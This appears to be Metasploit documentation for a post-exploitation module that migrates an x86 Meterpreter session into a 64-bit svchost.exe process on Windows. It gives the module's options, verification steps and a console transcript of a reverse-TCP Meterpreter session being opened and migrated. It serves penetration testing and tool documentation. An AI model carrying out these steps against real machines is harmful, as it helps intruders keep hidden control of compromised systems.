 ## Creating A Testing Environment

To use this module you need an x86 executable type meterpreter on a x64 windows machine.

This module has been tested against:

  1. Windows 10.
  2. Windows 7.
  3. Windows Server 2008R2

This module was not tested against, but may work against:

  1. Other versions of Windows that are x64.

## Options

**EXE**

The executable to start and migrate into. Default: `C:\windows\sysnative\svchost.exe`

**FALLBACK**

If the selected migration executable does not exist, fallback to a sysnative file. Default: `true`

**IGNORE_SYSTEM**

Migrate even if you have SYSTEM privileges. Default: `true`


### Verification Steps

  1. Start msfconsole
  2. Obtain a meterpreter session with an executable meterpreter via whatever method
  3. Do: `use post/windows/manage/archmigrate`
  4. Do: `set session #`
  5. Do: `run`

## Scenarios

### Windows 10 x64

```
    msf exploit(handler) > run

    [*] Started reverse TCP handler on <MSF_IP>:4567
    [*] Starting the payload handler...
    [*] Sending stage (957487 bytes) to <Win10x64_IP>
    [*] Meterpreter session 1 opened (<MSF_IP>:4567 -> <Win10x64_IP>:50917) at 2017-03-22 11:43:42 -0500

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    meterpreter > background
    [*] Backgrounding session 1...
    msf exploit(handler) > use post/windows/manage/archmigrate
    msf post(archmigrate) > set session 1
    session => 1
    msf post(archmigrate) > run

    [*] The meterpreter is not the same architecture as the OS! Upgrading!
    [*] Starting new x64 process C:\windows\sysnative\svchost.exe
    [+] Got pid 1772
    [*] Migrating..
    [+] Success!
    [*] Post module execution completed
    msf post(archmigrate) > sessions -l

    Active sessions
    ===============

      Id  Type                     Information                               Connection
      --  ----                     -----------                               ----------
      1   meterpreter x64/windows  DESKTOP-SO4MCA3\tmoose @ DESKTOP-SO4MCA3  <MSF_IP>:4567 -> <Win10x64_IP>:50917 (<Win10x64_IP>)

    msf post(archmigrate) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```
